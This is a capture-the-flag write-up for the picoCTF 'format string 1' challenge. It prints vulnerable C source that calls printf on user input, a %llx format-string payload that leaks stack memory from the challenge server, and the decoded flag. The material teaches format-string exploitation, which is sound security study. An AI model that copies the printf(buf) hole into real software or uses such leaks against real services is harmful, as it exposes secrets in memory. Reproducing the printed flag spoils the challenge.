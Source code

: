 # format string 1
## Description
Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest!
Download the binary here.
Download the source here.
Connect with the challenge instance here:
nc mimas.picoctf.net 52560
## Hints
- https://lettieri.iet.unipi.it/hacking/format-strings.pdf
- Is this a 32-bit or 64-bit binary?
## Solution
- We're given [format_string_1](./format_string_1) and [format_string_1.c](./format_string_1.c) files.
- Checking out the source code:
```c
#include <stdio.h>


int main() {
  char buf[1024];
  char secret1[64];
  char flag[64];
  char secret2[64];

  // Read in first secret menu item
  FILE *fd = fopen("secret-menu-item-1.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-1.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret1, 64, fd);
  // Read in the flag
  fd = fopen("flag.txt", "r");
  if (fd == NULL){
    printf("'flag.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(flag, 64, fd);
  // Read in second secret menu item
  fd = fopen("secret-menu-item-2.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-2.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret2, 64, fd);

  printf("Give me your order and I'll read it back to you:\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  printf("Bye!\n");
  fflush(stdout);

  return 0;
}
```
- The code does the following:
  - Reads the first secret menu item from `secret-menu-item-1.txt`.
  - Reads the flag from `flag.txt`.
  - Reads the second secret menu item from `secret-menu-item-2.txt`.
  - Reads the user input and prints it.
- The user input is printed using `printf(buf);`. There's a lack of format specifier in the `printf` function which makes it vulnerable to format string vulnerability.
- If we pass format specifiers in the input (like `%x`), `printf` treats them as instructions and will access the stack to print the values.
- This can be exploited to leak the flag.
- I ran `file format-string-1` and got `format-string-1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=62bc37ea6fa41f79dc756cc63ece93d8c5499e89, for GNU/Linux 3.2.0, not stripped`. So, it's a 64-bit binary.
- I checked the C documentation and found that `%llx` is used to print a 64-bit hexadecimal number.
- For some reason when I passed input in the format `%llx %llx %llx...`, it was getting null-termianted prematurely. So, I passed the input in the format `%llx.%llx.%llx...` and it worked:
```
nc mimas.picoctf.net 50622
Give me your order and I'll read it back to you:
%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx 
Here's your order: 402118,0,78b062a1fa00,0,1d73880,a347834,7ffea5da6b60,78b062810e60,78b062a354d0,1,7ffea5da6c30,0,0,7b4654436f636970,355f31346d316e34,3478345f33317937,34365f673431665f,7d363131373732,7,78b062a378d8,2300000007,206e693374307250,a336c797453,9
Bye!
```
- Putting the hex values in a [converter](https://gchq.github.io/CyberChef/), I got this:
```
@! x°b¡ú  s £Gþ¥Úk`x°b`x°b£TÐþ¥Úl0  {FTCocip5_14m1n44x4_31y746_g41f_}611772x°b£xØ#    ni3t0rP£6ÇE	
```
- We see `{FTCocip` in the output which is the flag format in little-endian. So, I took the whole string `{FTCocip5_14m1n44x4_31y746_g41f_}611772` and reversed it in sets of 8 bytes to get the flag `picoCTF{4n1m41_57y13_4x4_f14g_64277116}`.
